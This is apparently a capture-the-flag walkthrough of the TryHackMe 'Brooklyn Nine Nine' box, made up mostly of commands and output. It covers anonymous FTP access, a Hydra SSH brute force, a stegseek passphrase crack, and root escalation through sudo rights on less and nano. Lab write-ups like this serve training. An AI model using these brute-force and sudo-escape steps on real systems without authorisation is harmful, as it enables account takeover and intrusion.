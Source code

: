 ```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.101.169
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Anonymous login to FTP is allowed, so connecting to it:
```
ftp> ls -la
229 Entering Extended Passive Mode (|||28311|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```

The note says:
```
┌──(kali㉿kali)-[~/Desktop/THM/Brooklyn Nine Nine]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad f someone hacks into the nine nine
```

First thing that comes to the mind, using Hydra to crack the password.

```
┌──(kali㉿kali)-[~/Desktop/THM/Brooklyn Nine Nine]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.248.187 -s 22
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-22 16:02:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.248.187:22/
[22][ssh] host: 10.10.248.187   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

Then, connecting to the SSH as Jake:

```
┌──(kali㉿kali)-[~/Desktop/THM/Brooklyn Nine Nine]
└─$ ssh jake@10.10.248.187                                                     
The authenticity of host '10.10.248.187 (10.10.248.187)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.248.187' (ED25519) to the list of known hosts.
jake@10.10.248.187's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ whoami
jake
```

For privilege escalation, the first thing to check is the sudo permissions for Jake as we have the password for the user:
```
jake@brookly_nine_nine:/home$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

We can then use GTFOBins to check the way to become root using 'less' binary

```
jake@brookly_nine_nine:/$ sudo less /etc/profile
# whoami
root
# 
```

As it was mentioned in the info that there are two methods to get root, the other method is as follows.

<img src=https://github.com/user-attachments/assets/a4e84aba-2299-4165-9dff-639e1235c3b8>

Downloaded the website's only image.

I first used Steghide to extract the files. But a passphrase was required.

```
┌──(kali㉿kali)-[~/Desktop/THM/Brooklyn Nine Nine]
└─$ steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Then, I used Stegseek to get the passphrase for the file.
```
┌──(kali㉿kali)-[~/Desktop/THM/Brooklyn Nine Nine]
└─$ stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt pass.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "pass.txt".
```

```
┌──(kali㉿kali)-[~/Desktop/THM/Brooklyn Nine Nine]
└─$ cat note.txt 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

We get the password for the other user, Holt.

Using this to connect to SSH as Holt or the other thing that can be done is switching to Holt user. I made another connection to SSH as Holt.

```
┌──(kali㉿kali)-[~/Desktop/THM/Brooklyn Nine Nine]
└─$ ssh holt@10.10.248.187 
holt@10.10.248.187's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 
```

Again, the same thing applies. Since we have the user's password, we are checking the sudo permissions.

```
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

There is also another user.txt file with the same flag as the one in Jake's directory.

Again, GTFOBins it is to check the way to priv esca.

```
holt@brookly_nine_nine:~$ sudo /bin/nano -s /bin/sh
# whoami
root
# 
```
